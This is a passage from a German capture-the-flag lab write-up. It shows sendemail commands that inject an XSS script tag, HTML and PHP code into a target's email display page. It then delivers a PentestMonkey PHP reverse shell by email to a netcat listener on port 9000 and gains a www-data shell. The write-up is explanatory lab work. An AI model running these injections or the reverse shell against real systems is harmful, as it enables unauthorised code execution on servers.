 **Ziel:** Prüfen, ob der Mechanismus zur Anzeige von E-Mails auf der Webseite anfällig für Script-Injection oder unsachgemässe Eingabeverarbeitung ist.

```.shell!
$ sendemail -f "attacker@example.com" -t "bugs@robstargames.com" -u "<script>alert('xss')</script>" -m "<h1>Test HTML injection</h1>" -s 192.168.22.65:25 -o tls=no
```

Und tatsächlich werden sowohl der Alert wie ausgelöst, wie auch der Text im h1-tag als Überschrift dargestellt.


### Versuch 3: PHP-Code-Execution

Als nächstes wurde getestet, ob PHP-Code auch ausgeführt wird. Dazu wurde ein einfacher PHP `echo` verwendet.

```.shell!
$ sendemail -f "attacker@example.com" -t "bugs@robstargames.com" -u "Subject" -m "<?php echo 'test'; ?>" -s 192.168.22.65:25 -o tls=no
```

Es wird tatsächlich nur "test" angezeigt und nicht der komplette PHP-code.


### Exploit: PHP-Reverse-Shell

Als Exploit wurde eine generierte Reverse-Shell von [revshells.com](https://revshells.com)(PentestMonkey
version) auf port `9000` verwendet. Um das Senden zu vereinfachen wurde die PHP-reverse-Shell in eine Datei namens revshell.php gepackt. So kann diese im Kommando `cat` verwendet werden und der Befehl wird nicht unnötig lang.


1. Start eines netcat-listener auf port 9000 auf der Angreifermaschine

```.shell!
nc -lvnp 9000
```

2. Sende PHP-Exploit (gespeichert in `revshell.php`) mit `sendmail`

```.shell!
sendemail -f 69420@example.com -t bugs@robstargames.com -u 'Subject' -m "$(cat revshell.php)" -s 192.168.22.65 -o tls=no
```

3. Website aktualisiern: Die reverse-Shell wird erfolgreich ausgelöst. Information zum Benutzer: `whoami` zeigt angemeldeter Benutzer ist `www-data`.
4. Das erste flag ist direkt im selben Ort wie der Einstiegsort, der reverse-Shell.

Foothold Flag `foothold.txt`


## Benutzerrechte eskalieren (User Flag)

### Analyse des Webservice auf Port `3000`

Da der Dienst auf Port 3000 nur lokale Befehle erlaubt, wurde er aus der reverse-Shell heraus untersucht (als Beutzer `www-data`).
